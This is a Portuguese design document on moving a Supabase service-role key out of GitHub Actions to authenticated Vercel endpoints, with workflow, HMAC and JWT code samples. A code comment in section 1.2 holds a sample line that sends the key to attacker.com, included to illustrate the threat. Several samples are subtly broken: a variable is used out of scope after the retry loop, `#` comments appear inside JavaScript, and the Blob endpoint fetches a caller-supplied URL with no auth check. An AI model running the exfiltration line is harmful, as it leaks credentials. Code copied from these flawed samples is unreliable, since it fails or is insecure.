


# Revisão Arquitetural: Segurança de Secrets nas GitHub Actions

> **Documento de Arquitetura - Migração de Persistência Direta para Endpoints Vercel**
> **Versão:** 1.1.0 | **Data:** 2026-02-23
> **Status:** 📋 Especificação Completa | **Prioridade:** CRÍTICA

---

## 📋 Sumário Executivo

### Problema Crítico Identificado

As GitHub Actions **não podem** persistir dados no Supabase de forma segura porque:

1. **SUPABASE_SERVICE_ROLE_KEY em Secrets** expõe a chave de serviço a todos os colaboradores do repositório
2. **Bypass de RLS** - A service role key permite acesso total ao banco, ignorando Row Level Security
3. **Superfície de Ataque** - Qualquer pessoa com acesso ao repositório pode extrair a chave via workflow malicioso
4. **Sem Auditoria** - Ações da Actions são difíceis de rastrear e auditar

### Solução Proposta

**Migrar persistência para endpoints Vercel** - Arquitetura "Zero Trust" onde:
- GitHub Actions apenas **chamam** endpoints HTTP (sem acesso direto ao banco)
- Vercel endpoints possuem **SUPABASE_SERVICE_ROLE_KEY** de forma segura (server-side only)
- Autenticação via **token compartilhado** com expiração curta e assinatura HMAC

---

## 🔴 Análise do Estado Atual (Problemas de Segurança)

### 1.1 Exposição de Secrets no Workflow

```yaml
# ❌ PROBLEMA: Secrets expostos a todos os colaboradores
# .github/workflows/gemini-review.yml (linhas 407-409, 817-818)

persist:
  name: Persist Reviews to Supabase
  env:
    SUPABASE_URL: ${{ secrets.SUPABASE_URL }}
    SUPABASE_SERVICE_ROLE_KEY: ${{ secrets.SUPABASE_SERVICE_ROLE_KEY }}  # 🔴 CRÍTICO

create-issues:
  name: Create GitHub Issues
  env:
    SUPABASE_URL: ${{ secrets.SUPABASE_URL }}
    SUPABASE_SERVICE_ROLE_KEY: ${{ secrets.SUPABASE_SERVICE_ROLE_KEY }}  # 🔴 CRÍTICO
```

### 1.2 Scripts com Acesso Direto ao Supabase

```javascript
// ❌ PROBLEMA: Scripts recebem service role key como variável de ambiente
// .github/scripts/persist-reviews.cjs (linhas 41-52)

const SUPABASE_URL = process.env.SUPABASE_URL;
const SUPABASE_SERVICE_ROLE_KEY = process.env.SUPABASE_SERVICE_ROLE_KEY;

// Qualquer colaborador pode adicionar código aqui para extrair a chave:
// console.log('Exfiltrating:', SUPABASE_SERVICE_ROLE_KEY);
// fetch('https://attacker.com/log?key=' + SUPABASE_SERVICE_ROLE_KEY);

const supabase = createClient(SUPABASE_URL, SUPABASE_SERVICE_ROLE_KEY);
```

### 1.3 Riscos Identificados

| Risco | Severidade | Impacto | Probabilidade |
|-------|-----------|---------|---------------|
| Exfiltração de SERVICE_ROLE_KEY | 🔴 CRÍTICA | Comprometimento total do banco | Alta (qualquer PR malicioso) |
| Bypass de RLS | 🔴 CRÍTICA | Acesso a dados de todos os usuários | Garantido com a chave |
| Injeção de dados | 🟡 ALTA | Corrupção de dados de reviews | Média |
| Não-repúdio | 🟡 ALTA | Impossível auditar quem fez o quê | Alta |

### 1.4 Componentes Afetados

| Script/Job | Função | Usa SUPABASE_SERVICE_ROLE_KEY | Prioridade de Migração |
|------------|--------|------------------------------|------------------------|
| `persist-reviews.cjs` | Persistir reviews no Supabase | ✅ Sim | 🔴 **P1 - CRÍTICA** |
| `create-issues.cjs` | Criar issues e atualizar status | ✅ Sim | 🔴 **P1 - CRÍTICA** |
| `check-resolutions.cjs` | Atualizar status de resolução | ✅ Sim | 🔴 **P1 - CRÍTICA** |
| `notify-agents.cjs` | Notificar agents externos | ❌ Não (usa webhooks) | 🟢 Não precisa |
| `batch-update.js` | Endpoint Vercel existente | ✅ Sim (server-side) | 🟢 Já seguro |

---

## 🏗️ Nova Arquitetura Proposta

### 2.1 Visão Geral - Arquitetura Zero Trust



### 2.2 Principais Mudanças

| Aspecto | Antes (Inseguro) | Depois (Seguro) |
|---------|-----------------|-----------------|
| **Local do Secret** | GitHub Actions (exposto) | Vercel (server-side only) |
| **Acesso ao Banco** | Direto via service role | Indireto via HTTP API |
| **Autenticação** | Nenhuma (confia na rede) | HMAC + timestamp |
| **Auditoria** | Impossível | Logs em Vercel + Supabase |
| **Risco de Exfiltração** | Alto | Baixo (chave nunca exposta) |

---

## 🔐 Mecanismos de Autenticação Propostos

### 3.1 Opção 1: HMAC com Timestamp (RECOMENDADA)

**Vantagens:** Stateless, segura contra replay attacks, simples de implementar

```javascript
// ============================================================================
// IMPLEMENTAÇÃO NO GITHUB ACTIONS (scripts)
// ============================================================================

/**
 * Gera headers de autenticação para chamada aos endpoints Vercel
 * @param {string} payload - Body da requisição (JSON string)
 * @param {string} secret - VERCEL_GITHUB_ACTIONS_SECRET
 * @returns {Object} Headers de autenticação
 */
function generateAuthHeaders(payload, secret) {
  const timestamp = Math.floor(Date.now() / 1000); // Unix timestamp
  const dataToSign = `${timestamp}.${payload}`;
  
  const signature = crypto
    .createHmac('sha256', secret)
    .update(dataToSign)
    .digest('hex');
  
  return {
    'Authorization': `HMAC ${timestamp}:${signature}`,
    'Content-Type': 'application/json',
    'X-Request-Timestamp': timestamp.toString()
  };
}

// Uso no script
const payload = JSON.stringify(reviewData);
const headers = generateAuthHeaders(payload, process.env.VERCEL_GITHUB_ACTIONS_SECRET);

const response = await fetch('https://meus-remedios.vercel.app/api/gemini-reviews/persist', {
  method: 'POST',
  headers,
  body: payload
});
```

```javascript
// ============================================================================
// IMPLEMENTAÇÃO NO VERCEL (endpoints)
// ============================================================================

/**
 * Verifica autenticação HMAC
 * @param {Object} req - Requisição HTTP
 * @returns {boolean} true se autenticado
 */
function verifyAuth(req) {
  const authHeader = req.headers.authorization || '';
  const match = authHeader.match(/^HMAC (\d+):([a-f0-9]{64})$/);
  
  if (!match) return false;
  
  const [, timestampStr, signature] = match;
  const timestamp = parseInt(timestampStr, 10);
  const now = Math.floor(Date.now() / 1000);
  
  // Verificar expiração (5 minutos de tolerância)
  if (Math.abs(now - timestamp) > 300) {
    return false; // Replay attack ou clock skew
  }
  
  // Reconstituir payload assinado
  const payload = JSON.stringify(req.body);
  const dataToVerify = `${timestamp}.${payload}`;
  
  // Verificar assinatura
  const expectedSignature = crypto
    .createHmac('sha256', process.env.VERCEL_GITHUB_ACTIONS_SECRET)
    .update(dataToVerify)
    .digest('hex');
  
  // Timing-safe comparison
  try {
    const sigBuf = Buffer.from(signature, 'hex');
    const expectedBuf = Buffer.from(expectedSignature, 'hex');
    return sigBuf.length === expectedBuf.length && 
           crypto.timingSafeEqual(sigBuf, expectedBuf);
  } catch {
    return false;
  }
}
```

### 3.2 Opção 2: JWT de Curta Duração

**Vantagens:** Padrão, suporte a claims, expiração embutida

```javascript
// GitHub Actions - Gerar JWT
const jwt = require('jsonwebtoken');

const token = jwt.sign(
  {
    iss: 'github-actions',
    aud: 'vercel-api',
    iat: Math.floor(Date.now() / 1000),
    exp: Math.floor(Date.now() / 1000) + 300, // 5 minutos
    jti: crypto.randomUUID() // Prevenir replay
  },
  process.env.VERCEL_GITHUB_ACTIONS_SECRET,
  { algorithm: 'HS256' }
);

// Headers
const headers = {
  'Authorization': `Bearer ${token}`,
  'Content-Type': 'application/json'
};
```

```javascript
// Vercel - Verificar JWT
function verifyAuth(req) {
  const authHeader = req.headers.authorization || '';
  const token = authHeader.replace(/^Bearer\s+/i, '');
  
  if (!token) return false;
  
  try {
    const decoded = jwt.verify(token, process.env.VERCEL_GITHUB_ACTIONS_SECRET, {
      issuer: 'github-actions',
      audience: 'vercel-api'
    });
    return true;
  } catch {
    return false;
  }
}
```

### 3.3 Opção 3: Token Simples (Menos Segura)

**Uso:** Apenas para testes iniciais, não recomendada para produção

```javascript
// GitHub Actions
const headers = {
  'Authorization': `Bearer ${process.env.VERCEL_GITHUB_ACTIONS_SECRET}`,
  'Content-Type': 'application/json'
};

// Vercel - Verificação simples
function verifyAuth(req) {
  const authHeader = req.headers.authorization || '';
  const token = authHeader.replace(/^Bearer\s+/i, '');
  
  // Timing-safe comparison
  const secretBuf = Buffer.from(process.env.VERCEL_GITHUB_ACTIONS_SECRET);
  const tokenBuf = Buffer.from(token);
  
  if (secretBuf.length !== tokenBuf.length) return false;
  return crypto.timingSafeEqual(secretBuf, tokenBuf);
}
```

### 3.4 Recomendação

| Mecanismo | Segurança | Complexidade | Performance | Recomendação |
|-----------|-----------|--------------|-------------|--------------|
| **HMAC + Timestamp** | ⭐⭐⭐⭐⭐ | ⭐⭐⭐ | ⭐⭐⭐⭐⭐ | ✅ **USAR ESTA** |
| JWT | ⭐⭐⭐⭐ | ⭐⭐ | ⭐⭐⭐ | Alternativa válida |
| Token Simples | ⭐⭐ | ⭐⭐⭐⭐⭐ | ⭐⭐⭐⭐⭐ | ❌ Não usar |

---

## 📡 Endpoints Necessários

### 4.1 Lista de Endpoints

| Endpoint | Método | Descrição | Migra de | Prioridade |
|----------|--------|-----------|----------|------------|
| `/api/gemini-reviews/persist` | POST | Persistir reviews com deduplicação | `persist-reviews.cjs` | 🔴 P1 |
| `/api/gemini-reviews/create-issues` | POST | Criar GitHub Issues e atualizar status | `create-issues.cjs` | 🔴 P1 |
| `/api/gemini-reviews/update-status` | POST | Atualizar status de resolução | `check-resolutions.cjs` | 🔴 P1 |
| `/api/gemini-reviews/batch-update` | POST | Atualização em batch (já existe) | - | 🟢 Já existe |

### 4.2 Especificação: POST /api/gemini-reviews/persist

```javascript
/**
 * Persiste reviews do Gemini com deduplicação por hash
 * 
 * Autenticação: HMAC + Timestamp
 * Rate Limit: 100 req/min por IP
 * Timeout: 30s
 */

// REQUEST
{
  "pr_number": 120,
  "commit_sha": "abc123...",
  "issues": [
    {
      "file_path": "src/services/api.js",
      "line_start": 42,
      "line_end": 45,
      "title": "Add error handling",
      "description": "Missing try/catch block",
      "suggestion": "try { ... } catch (err) { ... }",
      "priority": "HIGH",
      "category": "bug"
    }
  ]
}

// RESPONSE 200 - Sucesso
{
  "success": true,
  "data": {
    "created": 3,
    "updated": 1,
    "skipped": 2,
    "reactivated": 0,
    "createdIssues": [
      { "id": "uuid-1", "hash": "sha256-1", "status": "detected" }
    ]
  }
}

// RESPONSE 401 - Não autorizado
{
  "success": false,
  "error": "Unauthorized",
  "message": "Invalid or expired signature"
}
```

### 4.3 Especificação: POST /api/gemini-reviews/create-issues

```javascript
/**
 * Cria GitHub Issues para reviews MEDIUM não-auto-fixable
 * 
 * Autenticação: HMAC + Timestamp
 * Nota: Este endpoint também interage com GitHub API
 */

// REQUEST
{
  "pr_number": 120,
  "commit_sha": "abc123...",
  "github_token": "ghp_...", // Token para criar issues
  "filter": {
    "priority": "MEDIUM",
    "auto_fixable": false,
    "status": "detected"
  }
}

// RESPONSE 200 - Sucesso
{
  "success": true,
  "data": {
    "created": 2,
    "issues": [
      { 
        "review_id": "uuid-1", 
        "github_issue_number": 121,
        "title": "[Refactor] Add error handling"
      }
    ]
  }
}
```

### 4.4 Especificação: POST /api/gemini-reviews/update-status

```javascript
/**
 * Atualiza status de reviews baseado em resoluções
 * 
 * Chamado por: check-resolutions job
 * Também responde a threads de comentários
 */

// REQUEST
{
  "pr_number": 120,
  "updates": [
    {
      "review_id": "uuid-1",
      "status": "resolved",  // detected, reported, assigned, resolved, partial, wontfix
      "resolution_type": "fixed",  // fixed, rejected, partial
      "commit_sha": "def456..."
    }
  ]
}

// RESPONSE 200 - Sucesso parcial (207 Multi-Status)
{
  "success": true,
  "partial": true,
  "data": {
    "success": [{ "review_id": "uuid-1", "status": "resolved" }],
    "errors": [{ "review_id": "uuid-2", "error": "Review not found" }]
  }
}
```

---

## 🔄 Modificações nos GitHub Actions

### 5.1 Novo Workflow Simplificado

```yaml
# .github/workflows/gemini-review.yml (VERSÃO SEGURA - trecho relevante)

env:
  NODE_VERSION: '20'
  # ❌ REMOVIDO: SUPABASE_URL e SUPABASE_SERVICE_ROLE_KEY
  # ✅ APENAS: VERCEL_GITHUB_ACTIONS_SECRET

jobs:
  persist:
    name: Persist Reviews to Supabase
    runs-on: ubuntu-latest
    needs: [detect, parse]
    if: always() && needs.parse.result == 'success'
    env:
      VERCEL_GITHUB_ACTIONS_SECRET: ${{ secrets.VERCEL_GITHUB_ACTIONS_SECRET }}
      VERCEL_API_URL: ${{ vars.VERCEL_API_URL }}  # https://meus-remedios.vercel.app
    
    steps:
      - name: Checkout
        uses: actions/checkout@v4
      
      - name: Setup Node
        uses: actions/setup-node@v4
        with:
          node-version: ${{ env.NODE_VERSION }}
          cache: 'npm'
      
      - name: Download Review Output
        uses: actions/download-artifact@v4
        with:
          name: gemini-review-output
          path: .gemini-output/
        continue-on-error: true
      
      - name: Persist Reviews via Vercel API
        uses: actions/github-script@v7
        with:
          script: |
            const fs = require('fs');
            const jwt = require('jsonwebtoken');
            
            // Função para gerar JWT de curta duração
            function generateAuthToken(secret) {
              return jwt.sign(
                {
                  iss: 'github-actions',
                  aud: 'vercel-api',
                  iat: Math.floor(Date.now() / 1000),
                  exp: Math.floor(Date.now() / 1000) + 300, // 5 minutos
                  jti: require('crypto').randomUUID()
                },
                secret,
                { algorithm: 'HS256' }
              );
            }
            
            const prNumber = parseInt("${{ needs.detect.outputs.pr_number }}");
            const outputDir = '.gemini-output';
            const reviewFile = `${outputDir}/review-${prNumber}.json`;
            
            if (!fs.existsSync(reviewFile)) {
              console.log('⚠️ Arquivo de review não encontrado, pulando');
              return;
            }
            
            const reviewData = JSON.parse(fs.readFileSync(reviewFile, 'utf8'));
            const token = generateAuthToken(process.env.VERCEL_GITHUB_ACTIONS_SECRET);
            
            // Retry com exponential backoff
            const maxRetries = 3;
            let lastError;
            
            for (let attempt = 1; attempt <= maxRetries; attempt++) {
              try {
                const response = await fetch(`${process.env.VERCEL_API_URL}/api/gemini-reviews/persist`, {
                  method: 'POST',
                  headers: {
                    'Authorization': `Bearer ${token}`,
                    'Content-Type': 'application/json'
                  },
                  body: JSON.stringify(reviewData)
                });
                
                if (response.ok) {
                  const result = await response.json();
                  console.log('✅ Persistência concluída:');
                  console.log(`   Criados: ${result.data.created}`);
                  console.log(`   Atualizados: ${result.data.updated}`);
                  return;
                }
                
                throw new Error(`HTTP ${response.status}: ${await response.text()}`);
              } catch (error) {
                lastError = error;
                console.log(`⚠️ Tentativa ${attempt}/${maxRetries} falhou: ${error.message}`);
                
                if (attempt < maxRetries) {
                  const backoff = Math.pow(2, attempt) * 1000; // 2s, 4s
                  await new Promise(r => setTimeout(r, backoff));
                }
              }
            }
            
            console.error(`❌ Falha após ${maxRetries} tentativas:`, lastError.message);
            // Não falha o workflow, apenas loga o erro
            
            const result = await response.json();
            
            if (!response.ok) {
              console.error('❌ Erro ao persistir:', result.error);
              return;
            }
            
            console.log('✅ Persistência concluída:');
            console.log(`   Criados: ${result.data.created}`);
            console.log(`   Atualizados: ${result.data.updated}`);
```

### 5.2 Scripts Modificados

| Script | Mudança | Resumo |
|--------|---------|--------|
| `persist-reviews.cjs` | **REMOVER** lógica de Supabase | Apenas chamar endpoint Vercel |
| `create-issues.cjs` | **REMOVER** lógica de Supabase | Apenas chamar endpoint Vercel |
| `check-resolutions.cjs` | **REMOVER** lógica de Supabase | Apenas chamar endpoint Vercel |

---

## 📦 Estratégias para Transferência do JSON de Reviews

O workflow atual gera um arquivo JSON em `.gemini-output/review-{pr_number}.json` que precisa ser transferido do ambiente temporário do GitHub Actions para persistência permanente.

### Problema
```yaml
# Job 'parse' gera o arquivo em infra temporária
- name: Upload Structured Output
  uses: actions/upload-artifact@v4
  with:
    name: gemini-review-output
    path: .gemini-output/*.json
    retention-days: 7  # ⏰ Apenas 7 dias!

# Job 'persist' precisa acessar este arquivo
- name: Download Review Output
  uses: actions/download-artifact@v4  # Baixa de infra temporária
```

**Limitações:**
- Artifacts GitHub: 7 dias de retenção (não é persistência)
- Não acessível externamente (agents, desenvolvedores)
- Volume pode ser grande (reviews extensos)

### Opção A: Upload Direto para Vercel Blob (RECOMENDADA)

**Vantagens:** Integrado ao ecossistema Vercel, URLs assinadas, automático

```yaml
# NOVO JOB: upload-to-blob (entre parse e persist)
upload-to-blob:
  name: Upload Review JSON to Vercel Blob
  runs-on: ubuntu-latest
  needs: [detect, parse]
  if: always() && needs.parse.result == 'success'
  env:
    BLOB_READ_WRITE_TOKEN: ${{ secrets.BLOB_READ_WRITE_TOKEN }}
  
  steps:
    - name: Download Review Output
      uses: actions/download-artifact@v4
      with:
        name: gemini-review-output
        path: .gemini-output/
    
    - name: Upload to Vercel Blob
      uses: actions/github-script@v7
      with:
        script: |
          const fs = require('fs');
          const { put } = require('@vercel/blob');
          
          const prNumber = "${{ needs.detect.outputs.pr_number }}";
          const filePath = `.gemini-output/review-${prNumber}.json`;
          
          if (!fs.existsSync(filePath)) {
            console.log('⚠️ Arquivo não encontrado');
            return;
          }
          
          // Upload com nome padronizado
          const blob = await put(
            `gemini-reviews/pr-${prNumber}/review-${Date.now()}.json`,
            fs.readFileSync(filePath),
            {
              access: 'public',  # ou 'private' com token
              contentType: 'application/json',
              token: process.env.BLOB_READ_WRITE_TOKEN
            }
          );
          
          console.log('✅ Upload concluído:', blob.url);
          
          # Salvar URL para jobs seguintes
          core.setOutput('blob_url', blob.url);
          core.setOutput('blob_path', blob.pathname);
```

**Endpoint para processar do Blob:**
```javascript
// api/gemini-reviews/persist.js
import { get } from '@vercel/blob';

export default async function handler(req, res) {
  const { blob_url, pr_number, commit_sha } = req.body;
  
  // 1. Baixar JSON do Blob
  const response = await fetch(blob_url);
  const reviewData = await response.json();
  
  // 2. Persistir no Supabase
  const result = await persistReviews(reviewData, { pr_number, commit_sha });
  
  // 3. (Opcional) Deletar blob após processamento
  // await del(blob_url, { token: process.env.BLOB_READ_WRITE_TOKEN });
  
  res.status(200).json({ success: true, data: result });
}
```

### Opção B: Envio Direto via POST (Payload Completo)

**Vantagens:** Simples, sem infra extra, síncrono
**Desvantagens:** Limitação de tamanho (10MB Vercel), retry complexo

```yaml
# Job 'persist' modificado - envia JSON direto no body
- name: Persist Reviews via POST
  uses: actions/github-script@v7
  with:
    script: |
      const fs = require('fs');
      const jwt = require('jsonwebtoken');
      
      const prNumber = parseInt("${{ needs.detect.outputs.pr_number }}");
      const filePath = `.gemini-output/review-${prNumber}.json`;
      
      const reviewData = JSON.parse(fs.readFileSync(filePath, 'utf8'));
      
      const token = jwt.sign(
        { iss: 'github-actions', aud: 'vercel-api', exp: Math.floor(Date.now()/1000) + 300 },
        process.env.VERCEL_GITHUB_ACTIONS_SECRET
      );
      
      // Envia JSON completo no body
      const response = await fetch(`${process.env.VERCEL_API_URL}/api/gemini-reviews/persist`, {
        method: 'POST',
        headers: {
          'Authorization': `Bearer ${token}`,
          'Content-Type': 'application/json'
        },
        body: JSON.stringify(reviewData)  # Payload completo
      });
```

**Limitações:**
- Vercel Serverless: limite de 10MB payload
- Reviews muito grandes podem falhar

### Opção C: Upload para Supabase Storage (Alternativa)

**Vantagens:** Mesmo ecossistema do banco, RLS aplicável

```yaml
- name: Upload to Supabase Storage
  uses: actions/github-script@v7
  env:
    SUPABASE_URL: ${{ secrets.SUPABASE_URL }}
    SUPABASE_SERVICE_ROLE_KEY: ${{ secrets.SUPABASE_SERVICE_ROLE_KEY }}
  with:
    script: |
      const { createClient } = require('@supabase/supabase-js');
      const fs = require('fs');
      
      const supabase = createClient(
        process.env.SUPABASE_URL,
        process.env.SUPABASE_SERVICE_ROLE_KEY
      );
      
      const prNumber = "${{ needs.detect.outputs.pr_number }}";
      const filePath = `.gemini-output/review-${prNumber}.json`;
      
      const { data, error } = await supabase.storage
        .from('gemini-reviews')
        .upload(`pr-${prNumber}/review.json`, fs.readFileSync(filePath), {
          contentType: 'application/json',
          upsert: true
        });
      
      if (error) throw error;
      console.log('✅ Upload concluído:', data.path);
```

**Problema:** Ainda requer `SUPABASE_SERVICE_ROLE_KEY` na Action (o que queremos evitar)

### Opção D: API Intermediária com Presigned URL

**Vantagens:** Segura, não expõe secrets, permite upload grande

```yaml
# 1. Solicitar URL de upload assinada
- name: Request Upload URL
  id: upload-url
  uses: actions/github-script@v7
  with:
    script: |
      const token = generateJWT(process.env.VERCEL_GITHUB_ACTIONS_SECRET);
      
      const response = await fetch(`${process.env.VERCEL_API_URL}/api/gemini-reviews/upload-url`, {
        method: 'POST',
        headers: { 'Authorization': `Bearer ${token}` },
        body: JSON.stringify({
          pr_number: ${{ needs.detect.outputs.pr_number }},
          filename: 'review.json'
        })
      });
      
      const { upload_url, blob_path } = await response.json();
      core.setOutput('upload_url', upload_url);
      core.setOutput('blob_path', blob_path);

# 2. Fazer upload direto para URL (sem autenticação no payload)
- name: Upload JSON File
  run: |
    curl -X PUT "${{ steps.upload-url.outputs.upload_url }}" \
         -H "Content-Type: application/json" \
         --data-binary @.gemini-output/review-${{ needs.detect.outputs.pr_number }}.json

# 3. Notificar endpoint que upload está pronto
- name: Notify Upload Complete
  uses: actions/github-script@v7
  with:
    script: |
      await fetch(`${process.env.VERCEL_API_URL}/api/gemini-reviews/process-upload`, {
        method: 'POST',
        headers: { 'Authorization': `Bearer ${token}` },
        body: JSON.stringify({
          blob_path: '${{ steps.upload-url.outputs.blob_path }}',
          pr_number: ${{ needs.detect.outputs.pr_number }}
        })
      });
```

### Comparação das Opções

| Opção | Segurança | Tamanho Máx | Complexidade | Custo | Recomendação |
|-------|-----------|-------------|--------------|-------|--------------|
| **A - Vercel Blob** | ⭐⭐⭐⭐⭐ | 500MB | ⭐⭐ | $0.15/GB | ✅ **PRINCIPAL** |
| B - POST Direto | ⭐⭐⭐⭐ | 10MB | ⭐ | $0 | Para reviews pequenos |
| C - Supabase Storage | ⭐⭐ | 50MB | ⭐⭐ | Incluído | ❌ Evitar (requer secret) |
| D - Presigned URL | ⭐⭐⭐⭐⭐ | 500MB | ⭐⭐⭐ | $0.15/GB | Alternativa robusta |

### Recomendação Final

**Opção A (Vercel Blob)** para produção:
- Não expõe secrets
- URLs públicas ou privadas com token
- Integração nativa com Vercel
- Cleanup automático configurável

**Fallback (Opção B):** Se review > 10MB e não usar Blob, fazer POST direto com chunking ou comprimir JSON.

---

## 📊 Revisão das Fases P4.x (Impacto)

### 6.1 Fases Afetadas

| Fase | Nome | Impacto da Migração | Ajuste Necessário |
|------|------|---------------------|-------------------|
| P4.1 | API Supabase | ✅ Nenhum | Já usa endpoints |
| P4.2 | Protocolo | ✅ Nenhum | Documentação já prevê |
| **P4.3** | **Webhook Agents** | 🟡 **Leve** | Usar mesmo mecanismo HMAC |
| **P4.4** | **CLI** | 🟡 **Leve** | Usar VERCEL_GITHUB_ACTIONS_SECRET |
| **P4.5** | **Endpoint REST** | 🟢 **Positivo** | Já é o padrão proposto |
| P4.6 | UI Human | ✅ Nenhum | Consome endpoint existente |
| **P4.7** | **Webhook GitHub** | 🟡 **Leve** | Validar assinatura GitHub + HMAC |

### 6.2 Endpoints Adicionais para P4.x

| Fase | Endpoint Necessário | Prioridade |
|------|---------------------|------------|
| P4.3 | `POST /api/webhooks/agent-notify` (DLQ + retry) | P2 |
| P4.4 | `GET /api/gemini-reviews` (listar) | P2 |
| P4.4 | `POST /api/gemini-reviews/:id/claim` | P2 |
| P4.4 | `POST /api/gemini-reviews/:id/complete` | P2 |
| P4.7 | `POST /api/webhooks/github` (receber events) | P1 |

---

## 📋 Plano de Migração

### 7.1 Fases da Migração



### 7.2 Checklist de Migração

#### Preparação (Dia 1-2)
- [ ] Criar `VERCEL_GITHUB_ACTIONS_SECRET` em Vercel (Environment Variables)
- [ ] Criar `VERCEL_GITHUB_ACTIONS_SECRET` em GitHub (Repository Secrets)
- [ ] Criar `VERCEL_API_URL` em GitHub (Repository Variables)
- [ ] Documentar rotação de secrets

#### Implementação (Dia 3-8)
- [ ] Implementar `POST /api/gemini-reviews/persist`
- [ ] Implementar `POST /api/gemini-reviews/create-issues`
- [ ] Implementar `POST /api/gemini-reviews/update-status`
- [ ] Implementar middleware HMAC em todos os endpoints
- [ ] Modificar workflow para usar novos endpoints
- [ ] Adicionar fallback para modo offline (quando endpoint falha)

#### Validação (Dia 9-10)
- [ ] Testar em PR de teste
- [ ] Verificar logs de auditoria
- [ ] Confirmar que dados estão sendo persistidos corretamente
- [ ] Testar retry em caso de falha

#### Limpeza (Dia 11-12)
- [ ] Remover `SUPABASE_SERVICE_ROLE_KEY` do GitHub
- [ ] Arquivar scripts legados
- [ ] Atualizar documentação
- [ ] Comunicar equipe sobre mudanças

---

## ⚖️ Trade-offs Considerados

### 8.1 Latência

| Aspecto | Antes | Depois | Impacto |
|---------|-------|--------|---------|
| Persistência | ~50ms (direto) | ~150ms (via HTTP) | +100ms aceitável |
| Cold Start | N/A | ~200ms (Vercel) | Ocorre apenas no primeiro request |

**Mitigação:** GitHub Actions já tem latência natural; +100ms é insignificante no contexto.

### 8.2 Confiabilidade

| Aspecto | Antes | Depois |
|---------|-------|--------|
| Ponto único de falha | Supabase | Vercel + Supabase |
| Retry automático | Não | Sim (implementar no script) |
| Fallback | Não | Modo offline (log apenas) |

**Mitigação:** Implementar retry com exponential backoff nos scripts.

### 8.3 Custo

| Aspecto | Antes | Depois |
|---------|-------|--------|
| Vercel | Apenas hospedagem | + Serverless invocations |
| Estimativa | $0 | ~$5-10/mês (volumetria atual) |

**Mitigação:** Custo baixo para o ganho de segurança significativo.

---

## 🔐 Checklist de Segurança

### Antes da Migração
- [ ] Auditar quem tem acesso ao `SUPABASE_SERVICE_ROLE_KEY` no GitHub
- [ ] Verificar logs de acesso recentes ao Supabase
- [ ] Documentar data/hora da mudança (para investigações futuras)

### Durante a Migração
- [ ] Rotação do `VERCEL_GITHUB_ACTIONS_SECRET` (primeiro deploy)
- [ ] Verificar que nenhum log expõe o secret
- [ ] Testar que endpoints rejeitam requests sem autenticação
- [ ] Testar que endpoints rejeitam requests com timestamp expirado

### Após a Migração
- [ ] Remover `SUPABASE_SERVICE_ROLE_KEY` do GitHub Actions
- [ ] Rotação do `SUPABASE_SERVICE_ROLE_KEY` (por precaução)
- [ ] Ativar audit logs no Supabase
- [ ] Configurar alertas de acesso suspeito

---

## ✅ Decisões do Usuário

| Decisão | Escolha | Observação |
|---------|---------|------------|
| **Autenticação** | JWT | Mais padronizado, claims embutidas |
| **Prioridade** | Sequencial (A) | `persist` → `create-issues` → `update-status` |
| **Falha** | Retry automático | 3 tentativas com exponential backoff |
| **Rate Limit** | 60 req/min | Conservador, seguro |
| **Vercel Limits** | Verificar primeiro | Avaliar plano atual antes |

### Nota sobre P4.7 (Webhook GitHub)
**Recomendação:** Usar assinatura nativa do GitHub para P4.7 (validação de `X-Hub-Signature-256`), JWT para Actions internas.

### Backlog: Evolução Futura
> **HMAC + Timestamp** foi avaliado como alternativa mais performática. Manter no backlog para evolução futura quando necessário (menor overhead, sem bibliotecas extras, stateless).

---

## 📚 Referências

- [batch-update.js](/api/gemini-reviews/batch-update.js) - Endpoint existente como referência
- [persist-reviews.cjs](/.github/scripts/persist-reviews.cjs) - Lógica de persistência atual
- [create-issues.cjs](/.github/scripts/create-issues.cjs) - Lógica de criação de issues
- [check-resolutions.cjs](/.github/scripts/check-resolutions.cjs) - Lógica de atualização de status
- [GEMINI_INTEGRATION_PHASES.md](/plans/GEMINI_INTEGRATION_PHASES.md) - Fases futuras P4.x
